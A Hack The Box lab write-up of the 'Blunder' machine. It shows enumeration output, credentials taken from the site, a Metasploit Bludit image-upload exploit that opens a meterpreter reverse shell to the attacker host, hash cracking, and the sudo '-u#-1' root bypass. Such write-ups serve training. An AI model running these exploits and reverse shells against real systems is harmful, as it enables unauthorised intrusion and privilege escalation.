 ================================================================================
=============================     BLUNDER    ===================================
===========================      By Shad       =================================
================================================================================

This HTB box is a Linux made by egotisticalSW
We start by a nmap scan:
```
$ nmap -sC -sV -oA nmap/initial 10.10.10.191
# Nmap 7.80 scan initiated Mon Oct 12 23:29:25 2020 as: nmap -sC -sV -oA nmap/initial 10.10.10.191
Nmap scan report for 10.10.10.191
Host is up (0.013s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 12 23:29:37 2020 -- 1 IP address (1 host up) scanned in 12.20 seconds
```
Nmap scan shows a closed FTP 21 port and an open 80 HTTP Apache.
The website is a blog with 3 articles on Stephen King, Google Stadia and
USB.

The website runs on BluditCMS, a CMS written in PHP

Runnning gobuster with .php,.txt extensions:
```
shad@kali:~/htb/blunder$ gobuster dir -u http://10.10.10.191 -w ./directory-list-2.3-small.txt -x .php,.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.191
[+] Threads:        10
[+] Wordlist:       ./directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/10/13 13:17:59 Starting gobuster
===============================================================
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/install.php (Status: 200)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```

todo.txt:
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

We add fergus as potential user in users.txt
While reading the articles on the website, we find this odd part in the Stephen
King Article:
```
[...] He has created probably the best fictional character RolandDeschain in The Dark tower series
``` 
`RolandDeschain` might be a password. We add it to our passfile passwords.txt

Using these creds, we try to log in the Bludit /admin endpoint:
We got logged in the CMS backend application.
Note: we also could have leveraged CVE-2019-17240 "Authentication Bruteforce
Mitigation Bypass" and wrote a bruteforce script for that login page, using ̀ cewl`
to build a wordlist of the articles on the page.

Using metasploit and CVE 2019-16113  we'll open a shell on the box:
```
msf5> use exploit/linux/http/bludit_upload_images_exec
msf5> options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2

msf5> set BLUDITUSER fergus
msf5> set BLUDITPASS RolandDeschain
msf5> set RHOSTS 10.10.10.191
msf5> set LHOST tun0
msf5> set PAYLOAD php/meterpreter/reverse_tcp
msf5> exploit
[*] Started reverse TCP handler on 10.10.14.211:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading mAhpVCjxta.png...
[*] Uploading .htaccess...
[*] Executing mAhpVCjxta.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.211:4444 -> 10.10.10.191:33488) at 2020-10-13 13:37:16 +0200
[+] Deleted .htaccess

meterpreter > shell
/bin/whoami
www-data
```

We then upload linpeas.sh to the box, run it, then exfil the results to study
the report:

```
meterpreter> upload ./linpeas.sh linpeas.sh
meterpreter> shell
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:/var/bludit-3.9.2/bl-content/tmp$ ./linpeas.sh -a > out.txt
```
Linpeas didn't show much.
Reading more on passwords policies of Bludit, we find that passwords are hashed
and stored in /bl-content/databases/users.php.

We also found an alternative installation of Bludit, version 3.10.0a

```
www-data@blunder:/var/www$ find . -name "users.php"
./bludit-3.10.0a/bl-kernel/admin/controllers/users.php
./bludit-3.10.0a/bl-kernel/admin/views/users.php
./bludit-3.10.0a/bl-content/databases/users.php
./bludit-3.9.2/bl-kernel/admin/controllers/users.php
./bludit-3.9.2/bl-kernel/admin/views/users.php
./bludit-3.9.2/bl-content/databases/users.php
www-data@blunder:/var/www$ cat ./bludit-3.10.0a/bl-content/databases/users.php
cat ./bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

Using hashes.org, we search for the hash: we find the password "Password120"
and are able to log in as Hugo in the box:

```
www-data@blunder:/var/www$ su hugo
su hugo
Password: Password120

hugo@blunder:/var/www$ cat /home/hugo/user.txt | wc -c
33
```
We owned user. Moving on to priv-escalation:

```
$ hugo@blunder:/home/$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash

hugo@blunder:/home/$ sudo -l
Password: Password120
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

This means Hugo may run /bin/bash as different users except root:
```
hugo@blunder:/home/$ sudo -u temp /bin/bash
temp@blunder:/home/$ 
```
The (ALL, !root) rule allows us to leverage CVE-2019-14287 vuln, "Allow Bypass
of User Restrictions":

```
hugo@blunder:/home$ sudo -u#-1 bash
Password: Password120
root@blunder:/home$ cat /root/root.txt | wc -c
33
```

We owned the root account.

